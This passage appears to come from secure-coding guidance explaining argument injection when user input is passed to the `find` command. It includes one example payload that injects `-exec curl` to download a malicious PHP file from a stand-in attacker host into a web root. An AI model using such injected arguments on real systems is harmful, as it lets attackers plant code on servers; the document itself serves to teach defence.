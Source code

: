 The following code uses the `find` command and expects the user to enter the
name of a file to find on the system.

It is vulnerable to argument injection because untrusted data is
inserted in the arguments of a process call without prior validation or
sanitization. +
Here, the application ignores that a user-submitted parameter might contain
special characters that will tamper with the expected system command behavior.

In this particular case, an attacker might add arbitrary arguments to the `find`
command for malicious purposes. For example, the following payload will download
malicious software on the application's hosting server.

----
 -exec curl -o /var/www/html/ http://evil.example.org/malicious.php ;
----